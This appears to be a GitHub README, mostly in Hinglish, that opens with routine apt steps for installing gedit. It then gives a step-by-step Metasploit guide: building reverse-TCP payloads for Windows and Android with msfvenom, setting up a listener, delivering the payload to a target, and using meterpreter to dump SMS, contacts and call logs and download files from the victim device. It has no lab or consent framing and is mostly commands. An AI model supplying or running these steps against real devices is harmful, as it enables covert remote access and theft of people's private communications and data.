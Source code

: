 # Build_Payload

1. **Update Package Index**: Start by updating the package list to ensure that you have the latest information about available packages.

    ```bash
    sudo apt update
    ```

2. **Upgrade Installed Packages**: You can also upgrade any existing packages, which might help resolve dependencies.

    ```bash
    sudo apt upgrade -y
    ```

3. **Install gedit**: Now, try installing `gedit` again.

    ```bash
    sudo apt install gedit -y
    ```

4. **Change the Repository Mirror**: If you still face issues, it might be worth changing the package repository mirror. Here’s how to do it:

   - Open the sources list file:

     ```bash
     sudo nano /etc/apt/sources.list
     ```

   - Look for lines that start with `deb` and change the URLs to a different mirror. For example, you can replace `us.archive.ubuntu.com` with `archive.ubuntu.com` or any other mirror that’s geographically closer to you.

   - After editing, save and exit (in nano, you can do this by pressing `CTRL + O`, then `Enter`, and `CTRL + X`).
  
<hr>

Metasploit ke saath payload banane ke liye, aapko basic steps ko follow karna hoga. Hinglish mein main aapko simple tareeke se samjha deta hoon:

### 1. **Install Metasploit:**
   Pehle to aapko Metasploit framework install karna hoga. Agar aapke paas pehle se nahi hai, toh yeh command run karo Ubuntu ya Kali Linux mein:
   ```bash
   sudo apt update && sudo apt install metasploit-framework
   ```
   ```bash
   snap install metasploit-framework
   ```
   Isse Metasploit install ho jayega.

### 2. **Start Metasploit:**
   Jab install ho jaye, Metasploit ko start karne ke liye yeh command run karo:
   ```bash
   msfconsole
   ```
   Thodi der mein Metasploit ka console khul jayega.

### 3. **Payload Create Karna:**
   Ab aap payload banane ke liye `msfvenom` tool ka use karoge. Msvenom ka use aapko ek custom payload banane ke liye hota hai. Example ke liye, agar aap Windows ke liye ek reverse TCP payload banana chahte ho, toh yeh command run karo:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > /path/to/save/payload.exe
   msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=4444 R > /path/to/payload.apk
   ```
   - **`LHOST`**: Aapka local IP address jisme payload connect karega (aap `ifconfig` se IP check kar sakte ho).
   - **`LPORT`**: Wo port jisme reverse connection aayega (e.g., 4444).
   - **`-f exe`**: File format EXE set karta hai, kyunki yeh Windows ke liye payload hai.

   Example:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > /home/user/mypayload.exe
   ```

### 4. **Set Up Listener in Metasploit:**
   Jab payload bana liya, ab Metasploit mein ek listener set karna padega jo payload se connection accept kare. Iske liye Metasploit console mein yeh steps follow karo:

   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your IP>
   set LPORT <Port>
   exploit
   ```
   Yeh listener reverse connection ke liye ready karega.

### 5. **Deliver the Payload:**
   Ab aapko payload target machine mein run karwana hoga. Jab wo payload execute karega, to reverse connection aapke Metasploit console mein aayega.

### 6. **Session Start:**
   Jab target machine pe payload run hoga, aapke listener pe ek meterpreter session shuru ho jayega. Uske baad aap target machine pe various commands run kar sakte ho jaise:
   ```bash
   sysinfo
   ```
   System information ke liye, ya:
   ```bash
   shell
   ```
   Shell access ke liye.

### Summary:
1. Metasploit install karo.
2. Msvenom se payload banao.
3. Listener setup karo Metasploit mein.
4. Payload target machine pe run karvao.
5. Reverse connection aake system access karlo.

Bus, is tarah aap Metasploit se ek payload create karke use kar sakte ho.

<hr>

Achha, ab jab tumne payload successfully generate kar liya hai aur target device par install kar liya hai, toh ab tumhe information access karne ke liye **Metasploit** ka use karna hoga. Chalo, main tumhe step-by-step guide deta hoon ki kaise tum target device se information access kar sakte ho.

### Step 1: Metasploit Console Ko Start Karna

1. **Metasploit Console Open Karna**:
   ```bash
   msfconsole
   ```

### Step 2: Listener Set Up Karna

1. **Listener Set Up Karna**:
   Tumhe pehle listener set up karna hoga taaki jab target device connect kare, tab tum uska session access kar sako:
   ```bash
   use exploit/multi/handler
   ```

2. **Payload Set Karna**:
   ```bash
   set payload android/meterpreter/reverse_tcp
   ```

3. **LHOST Aur LPORT Set Karna**:
   ```bash
   set LHOST 192.168.1.72
   set LPORT 4444
   ```

4. **Exploit Command Chalana**:
   ```bash
   exploit
   ```

### Step 3: Target Device Pe Payload Activate Karna

1. **Target Device Ko Connect Karne Dena**:
   Jab target device pe tumhara APK file open hota hai, toh wo reverse connection establish karega. Tumhe Metasploit console me ek new session dekhne ko milega.

### Step 4: Meterpreter Session Ko Access Karna

1. **Session Ko List Karna**:
   ```bash
   sessions
   ```
   - Is command se tumhe active sessions ki list milegi.

2. **Session Ko Access Karna**:
   - Agar session `1` hai, toh:
   ```bash
   sessions -i 1
   ```

### Step 5: Information Access Karna

Ab jab tum Meterpreter session me ho, toh tum kai commands use kar sakte ho target device se information access karne ke liye.

1. **SMS Logs Dump Karne Ke Liye**:
   ```bash
   dump_sms
   ```

2. **Contacts Ko Access Karne Ke Liye**:
   ```bash
   dump_contacts
   ```

3. **Call Logs Access Karne Ke Liye**:
   ```bash
   dump_calllog
   ```

4. **Device Information Dekhne Ke Liye**:
   ```bash
   sysinfo
   ```

5. **File System Ko Explore Karne Ke Liye**:
   ```bash
   ls
   cd /data/data/com.android.providers.telephony/databases
   ```

6. **Files Download Karne Ke Liye**:
   - Agar tumhe kisi specific file ko download karna hai:
   ```bash
   download <filename>
   ```

### Step 6: Session Ko Exit Karna

1. **Session Ko Exit Karna**:
   Jab tumhara kaam ho jaye, toh session ko exit karne ke liye:
   ```bash
   exit
   ```

